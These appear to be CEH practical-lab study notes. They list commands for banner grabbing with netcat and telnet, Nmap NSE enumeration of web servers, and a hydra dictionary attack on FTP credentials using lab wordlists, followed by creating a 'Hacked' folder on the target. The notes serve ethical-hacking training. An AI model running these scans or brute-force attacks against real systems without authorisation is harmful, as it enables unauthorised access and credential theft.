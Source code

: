     Click the GET long request tab, which lists all GET requests. Next, click the Fingerprint Details tab. 

 

 

TASK 5: FOOTPRINT A WEB SERVER USING NETCAT AND TELNET 

  

    nc -vv www.moviescope.com 80 

    type GET / HTTP/1.0 and press Enter twice. 

    Now, perform banner grabbing using telnet. In the terminal window, type telnet www.moviescope.com 80 and press Enter. 

    Now, type GET / HTTP/1.0 and press Enter twice. Telnet will perform the banner grabbing and gather information such as content type, last modified date, accept ranges, ETag, and server information. 

 

 

TASK 6: ENUMERATE WEB SERVER INFORMATION USING NMAP SCRIPTING ENGINE (NSE) 

 

    nmap -sV --script=http-enum [target website] 

    nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap-www.goodshopping.com 

    nmap --script http-trace -d www.goodshopping.com and press Enter. 



 #Web Server attacks

 TASK 1: CRACK FTP CREDENTIALS USING A DICTIONARY ATTACK 

 

    nmap -p 21 <targ> 

    ftp <targ> 

    Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. 

Now in terminal type-  

hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://<targ_ip> 

    hydra -l user -P passlist.txt ftp://<targ> 

    Type mkdir Hacked and press Enter to remotely create a directory named Hacked on the Windows 11 machine through the ftp terminal. 


# Hacking Web application

#Footprinting web infra

TASK 1: PERFORM WEB APPLICATION RECONNAISSANCE USING NMAP AND TELNET 
